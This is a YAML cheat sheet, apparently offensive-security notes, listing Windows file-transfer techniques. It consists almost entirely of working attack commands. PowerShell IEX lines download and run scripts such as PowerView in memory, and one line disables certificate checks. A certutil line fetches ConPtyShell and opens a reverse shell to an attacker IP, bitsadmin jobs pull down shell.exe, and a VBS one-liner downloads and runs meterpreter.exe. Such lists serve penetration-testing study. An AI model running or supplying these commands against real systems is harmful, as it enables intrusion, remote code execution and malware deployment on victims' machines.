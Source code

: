 ```yaml
---
functions:
  file-transfer:
    - description: Techniques allow you to download remote files onto windows systems
      code: |
        
        +++++++++POWERSHELL+++++++++
        powershell -c iwr -Uri http://192.168.119.149:8000/task.xml -OutFile task.xml -usebasicparsing

        powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')"

        Download and run IN MEM ONLY:
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149/Invoke-TM.ps1'))
        IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.149:8000/PowerView.ps1'))
		
		Ignore Cert Trusts
		powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).DownloadString('https://192.168.119.149:8000/Invoke-TM.ps1')

        +++++++++certutil+++++++++
        certutil.exe -urlcache -f http://192.168.119.149:8000/task.xml task.xml
        certutil.exe -urlcache -f http://192.168.119.149:8000/Invoke-ConPtyShell.ps1 Invoke-ConPtyShell.ps1; Invoke-ConPtyShell 192.168.119.149 9999


        +++++++++PS BITSADMIN+++++++++
        Import-Module BitsTransfer
        Start-BitsTransfer -Source $url -Destination $output
        #OR
        Start-BitsTransfer -Source $url -Destination $output -Asynchronous


        +++++++++CMD BITSADMIN+++++++++
        #does not work with pth

        Download:
        bitsadmin /create /download myjob
        bitsadmin /addfile myjob http://192.168.119.149/shell.exe c:\xampp\htdocs\shell.exe
        bitsadmin /resume myjob
        bitsadmin /reset
        bitsadmin /complete myjob


        +++++++++VBS+++++++++
        see wget.vbs

        Specific File [replace filenames]:
        echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"


        +++++++++IE+++++++++
        iexplorer.exe http://192.168.119.149:8000/1.bat
        iexplorer.exe http://192.168.119.149/task.xml


resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/wget-windows

---
```

